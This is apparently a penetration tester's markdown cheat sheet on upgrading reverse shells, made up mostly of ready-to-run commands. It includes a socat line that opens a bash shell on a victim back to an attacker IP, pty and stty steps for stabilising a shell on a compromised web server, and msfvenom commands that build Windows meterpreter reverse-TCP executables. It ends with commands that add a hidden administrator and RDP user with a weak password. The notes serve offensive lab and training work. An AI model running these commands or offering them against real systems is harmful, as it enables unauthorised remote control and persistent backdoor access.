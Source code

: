 Most [netcat](../Tools/netcat.md)-like tools provide a non-interactive shell, which means that programs that require user input such as many file transfer programs or `su` and `sudo` tend to work poorly, if at all. Non-interactive shells also lack useful features like tab completion and job control. It is always a good idea upgrade any non-interactive shell to an interactive one.

# Linux
## My
```sh
# In reverse shell  
$ python3 -c 'import pty; pty.spawn("/bin/bash")' or /usr/bin/script -qc /bin/bash /dev/null  
Ctrl-Z  
  
# In Kali __ After getting reverse shell___ kill it   
$ stty raw -echo; fg   
// stty sane --> if things get break  
  
# In reverse shell  
$ reset  
$ export SHELL=bash  
$ export TERM=xterm-256color  
$ stty rows 60 columns 200
```

## Python PTY

```python
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## TERM and SHELL exports

```bash
SHELL=/bin/bash script -q /dev/null

^Z
stty raw -echo; fg
export SHELL=bash
export TERM=xterm-256color
```

## socat

```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

## Fix rows and columns

From a clean terminal:

```bash
┌──(kali㉿kali)-[~/…/lab/ntwk/it.local/10.1.1.1]
└─$ stty -a
speed 38400 baud; rows 60; columns 235; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel -iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
```

From the "malformed" terminal:

```bash
www-data@luigi:/var/www$ stty rows 60 columns 235
stty rows 60 columns 235
```

---

# Windows:

## Rlwrap [^1]

[^1]: https://github.com/hanslub42/rlwrap](https://github.com/hanslub42/rlwrap

```bash
┌──(kali㉿kali)-[~/…/lab/ntwk/it.local/10.1.1.1]
└─$ rlwrap nc -nlvp 443
```

## meterpreter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=10099 -f exe -o meter.exe
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=10099 -f exe -o meter.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=10099 -f exe -o meter-x64.exe
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=10099 -f exe -o meter-x64.exe
```

## RDP

```powershell
net user maoutis Qwerty123! /add
net localgroup Administrators maoutis /add
net localgroup "Remote Desktop Users" maoutis /ADD
```